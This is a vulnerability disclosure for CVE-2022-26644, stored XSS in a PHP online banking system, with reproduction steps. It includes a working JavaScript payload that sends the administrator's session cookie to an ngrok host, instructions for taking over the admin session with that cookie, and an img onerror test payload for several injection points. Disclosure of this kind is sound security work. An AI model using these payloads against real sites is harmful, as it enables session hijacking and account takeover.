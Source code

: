 # Tittle: Online Banking System Stored XSS

## Author: (Erik451)

## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

## Version: OBS 1.0

## CVE: CVE-2022-26644
-  **Description:** A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

### Steps to reproduce:
- 1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
- 2- Edite your profile name and paste the payload
- 3- Using a ngrok http server to get the request with the administrator cookie

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


#### **Admin Session**

The administrator goes to the manage accounts menu and will execute the payload in background.
Now we have the admin cookie on the request

![admincookie](https://user-images.githubusercontent.com/47476901/160656693-e8ce72d9-66f1-4635-85df-f1b8042a8e1f.png)

Edit our cookie with the new admin cookie, reload admin page and now we are administrators.

![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS

Payload used: `<img src="x" onerror=prompt(1)>`

**Announcements Tittle**

-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**

-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	

 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle on the app, the XSS will be executed.
 
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

